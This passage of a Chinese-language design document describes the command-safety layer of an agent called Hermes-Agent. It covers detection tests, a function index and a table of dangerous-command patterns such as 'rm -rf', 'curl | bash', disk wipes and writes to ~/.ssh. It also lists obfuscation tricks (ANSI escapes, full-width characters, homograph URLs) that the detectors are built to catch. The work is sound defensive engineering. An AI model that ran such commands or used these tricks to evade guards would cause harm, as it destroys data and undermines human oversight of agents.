## 7. 测试覆盖

### 7.1 测试文件

| 文件路径 | 描述 |
|---------|------|
| `tests/tools/test_approval.py` | 危险命令审批测试 |
| `tests/tools/test_tirith_security.py` | Tirith 安全扫描测试 |
| `tests/tools/test_ansi_strip.py` | ANSI 转义序列清洗测试 |

### 7.2 关键测试场景

```python
# 危险命令检测测试
def test_detect_rm_rf():
    is_dangerous, key, desc = detect_dangerous_command("rm -rf /tmp")
    assert is_dangerous
    assert key == "recursive delete"

def test_detect_ansi_obfuscation():
    # ANSI 转义序列混淆
    command = "rm\x1b[0m -rf /tmp"
    is_dangerous, key, desc = detect_dangerous_command(command)
    assert is_dangerous  # 规范化后应检测到

def test_detect_unicode_obfuscation():
    # Unicode 全角字符混淆
    command = "rm -rf /tmp"  # 全角
    is_dangerous, key, desc = detect_dangerous_command(command)
    assert is_dangerous  # 规范化后应检测到

# Tirith 扫描测试
def test_tirith_homograph_url():
    result = check_command_security("curl http://раураl.com")
    assert result["action"] == "block"
    assert any("homograph" in f["title"] for f in result["findings"])

# 会话审批测试
def test_session_approval():
    session_key = "test-session"
    approve_session(session_key, "recursive delete")
    assert is_approved(session_key, "recursive delete")

# Gateway 阻塞队列测试
def test_gateway_blocking_queue():
    session_key = "gateway-session"
    entry = _ApprovalEntry({"command": "rm -rf /tmp"})
    
    # 后台线程阻塞等待
    def wait_for_approval():
        entry.event.wait(timeout=5)
        assert entry.result == "once"
    
    t = threading.Thread(target=wait_for_approval)
    t.start()
    
    # 主线程模拟用户审批
    time.sleep(0.1)
    entry.result = "once"
    entry.event.set()
    
    t.join()
```

---

## 8. 代码索引

### 8.1 核心文件

| 文件路径 | 行数 | 核心功能 |
|---------|------|---------|
| `tools/approval.py` | ~923 | 危险命令检测、审批状态、智能审批、Gateway 队列 |
| `tools/tirith_security.py` | ~400+ | Tirith 安全扫描、自动安装、SHA-256/cosign 验证 |
| `tools/terminal_tool.py` | ~1800+ | 终端执行、危险命令守卫、sudo 密码提示 |
| `tools/ansi_strip.py` | ~44 | ANSI 转义序列清洗 (ECMA-48 全覆盖) |

### 8.2 核心函数索引

| 函数名 | 文件 | 功能描述 |
|-------|------|---------|
| `check_all_command_guards()` | `approval.py:690` | 综合命令守卫检查 (Tirith + 危险模式) |
| `detect_dangerous_command()` | `approval.py:181` | 危险命令模式检测 |
| `_normalize_command_for_detection()` | `approval.py:163` | 命令规范化 (ANSI 清洗/Unicode 规范化) |
| `check_command_security()` | `tirith_security.py:250` | Tirith 安全扫描 |
| `_smart_approve()` | `approval.py:531` | LLM 智能风险评估 |
| `approve_session()` | `approval.py:294` | 会话级审批 |
| `approve_permanent()` | `approval.py:343` | 永久审批 |
| `is_approved()` | `approval.py:329` | 检查审批状态 |
| `resolve_gateway_approval()` | `approval.py:253` | Gateway 审批队列解析 |
| `_resolve_tirith_binary()` | `tirith_security.py:220` | Tirith 二进制路径解析 |
| `strip_ansi()` | `ansi_strip.py:35` | ANSI 转义序列清洗 |

### 8.3 危险模式分类

| 分类 | 模式数量 | 典型示例 |
|------|---------|---------|
| 文件删除 | 10+ | `rm -rf`, `find -delete`, `git reset --hard` |
| 权限修改 | 5+ | `chmod 777`, `chown root` |
| 磁盘操作 | 5+ | `mkfs`, `dd if=`, `> /dev/sd` |
| 数据库破坏 | 3+ | `DROP TABLE`, `DELETE FROM` (无 WHERE) |
| 系统服务 | 3+ | `systemctl stop`, `kill -9 -1` |
| 代码执行 | 10+ | `python -c`, `curl | bash`, heredoc |
| 自终止保护 | 5+ | `pkill hermes`, `kill $(pgrep hermes)` |
| 网关保护 | 2+ | `gateway run &`, `nohup gateway` |
| Git 破坏 | 5+ | `force push`, `branch -D`, `clean -f` |
| 敏感路径写入 | 10+ | `> /etc/`, `tee ~/.ssh/` |

---

## 9. 总结

Hermes-Agent 的命令安全检测系统展现了一个多层次、智能化、用户可控的安全防护体系。其核心设计亮点包括：

1. **纵深防御**: Tirith 内容级扫描 + 危险模式匹配 + LLM 智能评估，三层检测相互补充
2. **智能降噪**: 辅助 LLM 自动批准低风险命令，减少误报对用户工作流的干扰
3. **会话隔离**: 基于 `session_key` 的审批状态管理，支持 Gateway 多会话并发
4. **阻塞队列**: Gateway 使用 `threading.Event` 实现高效阻塞/唤醒机制
5. **命令规范化**: ANSI 清洗 + null 字节移除 + Unicode 规范化，防御混淆绕过
6. **持久化白名单**: 用户可永久信任特定模式，配置同步到 config.yaml
7. **Tirith 自动安装**: SHA-256 + cosign 双重验证，后台线程不阻塞启动
8. **fail-open 配置**: 扫描失败时行为可控，平衡安全性与可用性

该系统成功平衡了安全性与可用性，在保证命令执行安全的前提下，通过智能审批、会话缓存、YOLO 模式等机制最小化对用户工作流的干扰。
